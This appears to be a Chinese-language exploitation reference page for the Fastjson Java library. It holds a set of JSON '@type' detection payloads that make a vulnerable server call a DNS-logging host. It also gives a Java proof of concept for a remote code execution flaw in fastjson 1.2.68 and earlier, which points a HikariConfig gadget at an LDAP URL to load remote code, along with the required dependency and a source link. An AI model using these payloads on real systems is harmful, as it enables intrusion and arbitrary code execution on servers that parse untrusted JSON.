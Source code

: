 # Fastjson 漏洞利用 {docsify-ignore}

## Fastjson 检测

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:0
```



## HadoopHikari RCE（<= 1.2.68）

fastjson <= 1.2.68 RCE，需要开启 AutoType (report by threedr3am to ASRC)

### Payload

```java
  public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

    String payload = "{\"@type\":\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:43658/Calc\"}";
    String payload2 = "{\"@type\":\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",\"healthCheckRegistry\":\"ldap://localhost:43658/Calc\"}";
    JSON.parse(payload);
  }
```

### 影响版本

- fastjson <= 1.2.68

### 依赖

```java
<dependency>
    <groupId>org.apache.hadoop</groupId>
    <artifactId>hadoop-client-minicluster</artifactId>
    <version>3.2.1</version>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/HadoopHikariPoc.java

